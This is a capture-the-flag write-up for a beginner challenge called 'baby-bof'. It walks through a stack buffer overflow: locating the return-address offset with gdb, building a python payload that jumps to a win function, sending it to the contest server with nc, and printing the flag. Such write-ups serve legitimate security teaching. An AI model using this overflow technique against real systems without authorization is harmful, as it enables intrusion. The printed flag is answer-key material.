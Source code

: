 # baby-bof
This is your first pwn challenge.

- This was the easier because it was just a ``buffer overflow`` type of pwn.

- A bit of reverse we are just inspecting what are we dealing with:

# Main
![main](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/main.png)

# Vuln
![vuln](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/vuln.png)

# Win
![win-func](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/win-fun.png)

- We see that variable ``local_48`` has a limit of 64, but the program can read max of 0x100 (256 decimal) bytes.
- At this point we just need to write a python script to overwhelm the variable and redirect the flow to any function we want.

- Let's start with attaching gdb to the program:

![gdb](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/gdb.png)

- Then we execute a python code to see how the program reacts with 63 A's:

![63a](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/63a.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63)"
```

- Seems like the program didn't crash so we are at the limit. Let's change a bit and add some B's:

![63a10b](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/63a10b.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*10)"
```

- Oh, we got a crash. Did we manage to control the flow? Let's add some C's just to be sure:

![63a10b5c](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/63a10b5c.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*10 + b'C'*5)"
```

- Bingo! Now we control the flow and we can see by the address ``0x43434343434...`` which is the ascii code of the letter ``C``. But something is not right, because we don't have a clean address of 43's, so in that matter let's substract a B to see if something changes.

![63a9b5c](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/64a9b5c.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*9 + b'C'*5)"
```

- There we go! now all we have to do just to pass the address of the function we want to access, which is going to be ``win``.
- But first we need to tranform it from Big Edian to Little Edian, which is going to be a "reversed" version of the address:

![win](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/win.png)

- Big Edian:
```
0x40 0x11 0x96
```
- Little Edian:
```
0x96 0x11 0x40
```

- Now let's test our final script:

![63a9bwinaddr](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/63a9bwin_address.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*9 + b'\x96\x11\x40')"
```

- GG! We succesfully called ``win``. Let's do a final step and pass it to the ``nc`` to get our flag:

![final](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/final.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*9 + b'\x96\x11\x40')" | nc ctf.ac.upt.ro 9796
```

- Flag: ctf{3c1315f63d550570a690f693554647b7763c3acbc806ae846ce8d25b5f364d10}
